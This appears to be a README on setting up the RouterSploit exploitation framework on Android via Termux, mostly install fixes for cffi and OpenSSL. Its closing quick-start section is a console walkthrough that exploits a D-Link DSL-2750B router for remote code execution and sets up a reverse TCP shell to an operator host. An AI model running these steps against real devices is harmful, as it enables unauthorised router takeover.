 ### Setup RouterSploit on Android 


<img src="https://github.com/desword/shellcode_tools/blob/master/img/android_sploit.jpg" width = 50% height = 50% div align=center />

* RouterSploit
	* RouterSploit is a Exploitation Framework for Embedded Devices
	* https://github.com/threat9/routersploit

* download termux
    * https://cn.apksum.com/down/com.termux_0.65_free
    * install python on termux
        * https://wiki.termux.com/wiki/Python
	* The default python of termux is python3, therefore it should work for routersploit.
	
* Basic install command
	* git clone https://www.github.com/threat9/routersploit
	* cd routersploit
	* pip install -r requirements.txt
* Errors when install routersploit on termux
    * errors of compiling cffi
		* [ref] https://github.com/termux/termux-packages/issues/1964
			* pkg install clang
		* if file "ffi.h" can not find,then 
			* apt search ffi 
			* apt install libffi libffi-dev
		* Then the cffi should be installed successfully.
	* errors of ,Issue installing cryptography (due to openssl built with no-engine) all about the openssl
		* [ref] https://github.com/termux/termux-packages/issues/2847
		* install the following old version of openssl, and it should work.
			* OpenSSL without no-engine config for AArch64: (in my test on HUAWEI MATE 8, the following packages should work)
				* openssl_1.1.1-2_aarch64.deb.gz
				* openssl-dev_1.1.1-2_aarch64.deb.gz
				* openssl-tool_1.1.1-2_aarch64.deb.gz
			* OpenSSL without no-engine config for arm:
				* openssl_1.1.1-2_arm.deb.gz
				* openssl-dev_1.1.1-2_arm.deb.gz
				* openssl-tool_1.1.1-2_arm.deb.gz
			* download 
				* using wget to download the above packages.
			* [CMD]
				* gunzip openssl_1.1.1-2_arm.deb.gz
				* gunzip openssl-dev_1.1.1-2_arm.deb.gz
				* gunzip openssl-tool_1.1.1-2_arm.deb.gz
				* dpkg -i openssl_1.1.1-2_arm.deb
				* dpkg -i openssl-dev_1.1.1-2_arm.deb
				* dpkg -i openssl-tool_1.1.1-2_arm.deb
	* Quick keyboards
		* using tab (volum +, and t)
		* show all keyboards (volum +, and q)
		* cursor left/right (volum +, and a/d) 
		* previous/latter commands (volum +, and w/s)
* quick start for RouterSploit
	* python rsf.py
	* use scanner/autopwn
	* set target 192.168.1.1
	* rsf (AutoPwn) > use exploits/routers/dlink/dsl_2750b_rce                                                        
	* rsf (D-Link DSL-2750B RCE) > set target 192.168.1.1                                                             
	* [+] target => 192.168.1.1                                                                                       
	* rsf (D-Link DSL-2750B RCE) > check                                                                              
	* [+] Target is vulnerable                                                                                        
	* rsf (D-Link DSL-2750B RCE) > run
	* cmd > show payloads
	* cmd > set payload reverse_tcp                                                                                   
	* cmd (MIPSBE Reverse TCP) > show options 
	* cmd (MIPSBE Reverse TCP) > set lhost 192.168.1.10
	* cmd (MIPSBE Reverse TCP) > run
	
		
			
			
			
